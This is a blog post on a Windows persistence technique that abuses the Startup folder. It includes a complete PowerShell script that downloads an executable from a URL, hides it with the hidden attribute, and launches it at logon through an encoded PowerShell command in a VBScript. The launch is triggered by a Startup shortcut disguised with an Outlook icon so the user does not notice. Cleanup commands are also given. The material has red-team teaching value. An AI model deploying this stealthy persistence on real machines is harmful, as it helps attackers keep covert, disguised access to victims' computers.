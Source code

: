 ```yaml
---
layout: post
title: Persistence using Startup Folder
excerpt_separator: <!--more-->
---
```


One of the most simple persistence methods when you have access as a non-administrative user is using the Startup folder. However, it is not so easy to go completely unnoticed by the legitimate user.

<!--more-->


Gists: 

- [Script to create files](https://gist.github.com/ricardojoserf/d021310080ea34c8c6187d82065dde85)

- [Script to delete files](https://gist.github.com/ricardojoserf/6e1a242e77a52c78b630af22d5709153)

<br>

-------------------------------------------


## Intro

The easiest way to set this persistence method is dropping a file in the Startup Folder of the user, which is in the path:

```
C:\Users\USER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

This file can be an executable program (".exe" extension) but it can also be a Batch script (".bat" extension), Powershell script (".ps1" extension) or even a file shortcut (".lnk" extension). So if, for example, you copy the calc.exe binary from C:\Windows\System32\calc.exe to the mentioned Startup folder path, next time the user logs into the computer the calculator application will pop up.

From a non-attacker perspective, it is common to see big organizations using this and other similar techniques to make all the employee laptops to launch specific programs when the Operating System (usually Windows) starts. In this case, one approach is using shortcuts to open each of these programs: Teams, Outlook, Chrome...

For this specific case, we find a laptop where there are shortcuts to open some programs in the Startup folder, which open all the programs the employee needs for its daily work. However, even if the user uses Outlook everyday, there is not a shortcut for the program. Furthermore, our goal is to run a .exe file every time the user boots the computer without any cmd window popping up

<br>

## Executing a EXE without a window popping up

##### Failed approach: Powershell's window style hidden

First, I created a Batch file in the path:

```
C:\Users\USER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UpdateOutlook.bat
```

And this is the content of the file, a Powershell command which executes the program in the path "c:\temp\OutlookUpdate.exe" and hides the window immediately (that is why we use "-windowstyle hidden"):

```
powershell -windowstyle hidden -command c:\temp\OutlookUpdate.exe
```

What is the biggest problem with this approach? Even if you run this in an good, new, optimized computer, the window will pop up even if it is for half a second. If the computer is older, the time the window appears in the screen will be longer, and having the previous Powershell command for more than 15 seconds in the user's screen is probably not the most OPSEC option. 

Could we encode the Powershell command? Of course, but it is even better if we avoid the window appearing even for half a second.


##### Changing Powershell for VBScript

To avoid any windows appearing in the screen, we will use a VBScript file. For example, the following script will execute an encoded powershell command which will call "c:\ProgramData\Outlook\OutlookUpdate.exe". If we create this file in the Startup folder, the program will get executed and there will be no window popping the user could ever see:

```
Set objShell = WScript.CreateObject(""WScript.Shell"")
objShell.Run(""powershell -e YwA6AFwAUAByAG8AZwByAGEAbQBEAGEAdABhAFwATwB1AHQAbABvAG8AawBcAE8AdQB0AGwAbwBvAGsAVQBwAGQAYQB0AGUALgBlAHgAZQA=""), 0, True
```


##### Shortcut files

But, knowing the folder contains mostly shortcuts, maybe it makes more sense if the VBScript file is generated in other folder and we just leave a shortcut to it in the Startup folder. 

Furthermore, we will change the shortcut icon to a more reliable-looking one, and for this example we will use an Outlook icon. We can generate the file shortcut using WScript:

```
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile")
wget $Url/$IcoFile -Outfile $Dir\$IcoFile
$Shortcut.TargetPath = "$Dir\$VbsFile"
$Shortcut.IconLocation = "$Dir\$IcoFile"
$Shortcut.Save()
```

##### Hidden files

Finally, now we know we will need four files:

- The shortcut file in the Startup folder.
- The icon file used by the shortcut file.
- The VBScript file called by the shortcut.
- The EXE file we wanted to execute in the system at startup.

We will drop the icon and EXE file and generate the shortcut and the VBScript file, and the four files will be on disk. 

We can use the "hidden" attribute so the files are not visible in the folder (by default, even if you probably have File Explorer configured to see hidden items) or running "dir" (you should run "dir /a" to see these hidden files). For this we could use:

```
attrib -h C:\ProgramData\Outlook\OutlookUpdate.exe
```

From my tests, it is important to notice that the shortcut file can not be "hidden", but the VBScript, EXE and even the icon file can be.

<br>

## Final scripts

This process is automated in the following [script](https://gist.github.com/ricardojoserf/d021310080ea34c8c6187d82065dde85):

```
$Url = "http://127.0.0.1:8080"
$Dir="C:\ProgramData\Outlook"
$ExeFile = "notmalicious.exe"
$VbsFile = "CheckUpdate.vbs"
$LnkFile = "Outlook.lnk"
$IcoFile = "microsoft-outlook.ico"

## Create directory
echo "Creating directory $Dir"
mkdir $Dir

## Download and hide .exe
wget $Url/$ExeFile -Outfile $Dir\$ExeFile
attrib +h $Dir\$ExeFile
cmd /c "dir $Dir"
cmd /c "dir /a $Dir"

## Create .vbs
$B64Path = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($Dir+"/"+$ExeFile))
echo $B64Path
cmd /c "echo Set objShell = WScript.CreateObject(""WScript.Shell"") > ""$Dir\$VbsFile"""
cmd /c "echo objShell.Run(""powershell -e $B64Path""), 0, True >> ""$Dir\$VbsFile"""

## Download .ico and create .lnk
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile")
wget $Url/$IcoFile -Outfile $Dir\$IcoFile
$Shortcut.TargetPath = "$Dir\$VbsFile"
$Shortcut.IconLocation = "$Dir\$IcoFile"
$Shortcut.Save()

## Hide .vbs and .ico
attrib +h "$Dir\$VbsFile"
attrib +h $Dir\$IcoFile
cmd /c "dir ""$Dir"""
cmd /c "dir /a ""$Dir"""
type "$Dir\$VbsFile"
cmd /c "dir /a ""$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"""
```


And this is the [script](https://gist.github.com/ricardojoserf/6e1a242e77a52c78b630af22d5709153) to delete the files generated for the persistence (basically you have to unset the "hidden" attribute before deleting a file, you could also delete the folder but I think it is risky to do that in a script):

```
$Dir="C:\ProgramData\Outlook"
$ExeFile = "notmalicious.exe"
$VbsFile = "CheckUpdate.vbs"
$LnkFile = "Outlook.lnk"
$IcoFile = "microsoft-outlook.ico"

## Unhidden and delete files from Dir
cmd /c "dir /a $Dir"
attrib -h $Dir\$ExeFile
attrib -h $Dir\$VbsFile
attrib -h $Dir\$IcoFile
del $Dir\$ExeFile
del $Dir\$VbsFile
del $Dir\$IcoFile
cmd /c "dir /a $Dir"

## Delete .lnk
del "$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile"
cmd /c "dir /a ""$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"""
```

Before deleting these files the program must be stopped if it is already running:

```
tasklist | findstr notmalicious.exe
taskkill /f /pid PID
```

<br>
